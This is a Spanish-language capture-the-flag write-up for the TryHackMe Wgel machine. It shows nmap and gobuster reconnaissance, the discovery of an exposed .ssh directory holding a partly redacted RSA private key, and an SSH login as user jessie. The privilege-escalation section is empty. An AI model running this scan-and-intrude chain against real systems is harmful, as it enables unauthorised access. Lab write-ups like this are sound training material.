 ## TryHackMe  <> Wgel CTF
![image](https://github.com/Esevka/CTF/assets/139042999/5e26ad71-c251-438b-ba43-7eed13496eaf)

Enunciado Informacion : Obtener user.txt y root.txt

---
---

## Escaneo de puertos

Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido, por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# ping -c1 10.10.111.201
    PING 10.10.111.201 (10.10.111.201) 56(84) bytes of data.
    64 bytes from 10.10.111.201: icmp_seq=1 ttl=63 time=51.6 ms
    
    --- 10.10.111.201 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 51.629/51.629/51.629/0.000 ms

Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.111.201 -oN open_ports
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:47 CEST
    Initiating SYN Stealth Scan at 09:47
     [...]
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p 22,80 -sCV 10.10.111.201 -vvv -oN info_ports                        
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:50 CEST
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    [...]
    
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 94961b66801b7648682d14b59a01aaaa (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
    |   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
    |   256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
    
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## Analisis de vulnerabilidaddes en los servicios y explotacion de los mismos.

Segun el launchpad del servicio OpenSSH 7.2p2 que esta corriento en el puerto 22 y el ttl obtenido anteriormente pordriamos decir que estamos delante de una maquina Linux.

![image](https://github.com/Esevka/CTF/assets/139042999/a445ff83-cfc4-46a8-bf4e-c9a636548566)

--Puerto 80

Cargamos la web y encontramos la pagina por defecto de Apache2 nada interesante, revisamos como siempro el codigo de la web por si acaso y encontramos lo siguiente.

![image](https://github.com/Esevka/CTF/assets/139042999/df66790e-53e7-4ecc-b807-bb7a84538ac2)

---
POSIBLE USUARIO ---> jessie
---

No vemos nada mas por lo que vamos a fuzzear la web en busca de directorios.

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201 -w /usr/share/wordlists/dirb/common.txt -o fuzz
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /index.html           (Status: 200) [Size: 11374]
    /server-status        (Status: 403) [Size: 278]
    /sitemap              (Status: 301) [Size: 316] [--> http://10.10.111.201/sitemap/]
    
Revisamos la url encontrada pero no encontramos nada interesante que nos pueda ayudar por lo que fuzzeamos el directorio anterior en busqueda de subdirectorios

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201/sitemap -w /usr/share/wordlists/dirb/common.txt -o fuzz1
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /.ssh                 (Status: 301) [Size: 321] [--> http://10.10.111.201/sitemap/.ssh/]
    /css                  (Status: 301) [Size: 320] [--> http://10.10.111.201/sitemap/css/]
    /fonts                (Status: 301) [Size: 322] [--> http://10.10.111.201/sitemap/fonts/]
    /images               (Status: 301) [Size: 323] [--> http://10.10.111.201/sitemap/images/]
    /index.html           (Status: 200) [Size: 21080]
    /js                   (Status: 301) [Size: 319] [--> http://10.10.111.201/sitemap/js/]
    Progress: 4579 / 4615 (99.22%)
    ===============================================================
    2023/08/02 10:10:40 Finished
    ===============================================================

Super real, un directorio /.ssh, posiblemente como en otros casos contenga una clave privada.

![image](https://github.com/Esevka/CTF/assets/139042999/880ee7d4-567b-4ecb-bc29-a3b7d693f241)

![image](https://github.com/Esevka/CTF/assets/139042999/ed1c5a82-9a9d-4862-a422-1f37b8d70f49)


Seguramente esta clave privada sea del usuario jessie encontrado anteriormente, vamos a conectarnor con esta clave por el servicio ssh del puerto 22.

Creamos un fichero llamado id_rsa con el contenido de la llave privada encontrada y le damos permiso solo de lectura.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# echo '-----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zE
    [...]
    -----END RSA PRIVATE KEY-----' > id_rsa
    
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# chmod 400 id_rsa 

Nos conectamos al servicio ssh y obtenemos acceso a la maquina.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# ssh jessie@10.10.111.201 -i id_rsa 
    The authenticity of host '10.10.111.201 (10.10.111.201)' can't be established.
    ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
    This host key is known by the following other names/addresses:
        ~/.ssh/known_hosts:28: [hashed name]
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.111.201' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    8 packages can be updated.
    8 updates are security updates.
    
    jessie@CorpOne:~$ whoami;id
    jessie
    uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


## Post Explotacion Escalada de privilegios jessie to root.


  




